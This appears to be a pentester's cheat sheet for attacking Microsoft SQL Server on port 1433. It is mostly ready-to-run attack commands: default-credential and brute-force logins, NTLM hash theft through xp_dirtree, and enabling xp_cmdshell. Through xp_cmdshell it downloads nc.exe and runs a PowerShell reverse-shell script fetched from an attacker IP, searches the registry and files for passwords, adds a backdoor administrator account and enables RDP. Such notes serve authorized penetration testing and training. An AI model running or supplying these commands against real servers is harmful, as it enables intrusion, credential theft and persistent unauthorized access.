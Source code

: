 # 1433 (MSSQL)

## Enumeration

### Checks

* [ ] Try default credentials "sa:password"
* [ ] Brute force creds
* [ ] Check database content for new passwords
* [ ] Check version for exploits
* [ ] RCE
  * [ ] through xp\_cmdshell functionality
  * [ ] through injecting payload in output file, placing it in webroot and triggering it through webapp

### Connection

#### sqsh

```bash
sqsh -S <IP> -U sa
sqsh -S <IP> -U sa -P password
sqsh -S <IP>:27900 -U sa -P password
```

#### mssqlclient.py

```bash
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

### nmap

```bash
nmap -p 1433 --script='banner,(ms-sql* or ssl*) and not (brute or broadcast or dos or external or fuzzer)' <IP> -o 1433_nmap_mssql
# Credential Brute Force
nmap -p 1433 --script ms-sql-brute --script-args passdb=/usr/share/seclists/Passwords/darkweb2017-top1000.txt <IP>

nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

### xp\_cmdshell

#### Enable

```bash
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
```

#### Commands

```bash
# Manaul enumeration
xp_cmdshell 'whoami /all';
xp_cmdshell 'systeminfo';
xp_cmdshell 'net user';  # Potential for brute force or password re-use
xp_cmdshell 'reg query HKLM /f pass /t REG_SZ /s';  # Search registry for pass
xp_cmdshell 'findstr /si password *.txt *.ini *.config *xml'  # Check for plaintext passwords
# Run other PrivEsc commands for enumeration

# Download files for reverse shell
xp_cmdshell "powershell -c iex(new-object net.webclient).downloadstring('http://192.168.119.165:9090/Invoke-PowerShellTcp.ps1')";--
xp_cmdshell "certutil -urlcache -f 'http://192.168.119.165:9090/nc.exe' nc.exe"

# Create user and pass then add them to Admin group (Need enough permissions)
xp_cmdshell 'net user byte bytepass /add'
go
xp_cmdshell 'net localgroup Administrators byte /add'
go
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
go
```

### Metasploit

```bash
use auxiliary/scanner/mssql/mssql_ping
```

## Brute Force

### Metasploit

```bash
scanner/mssql/mssql_login
```

### Hydra

```bash
hydra -l sa -P password.txt -V <IP> mssql
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

### Cheat sheet

```bash
https://www.asafety.fr/mssql-injection-cheat-sheet/
```
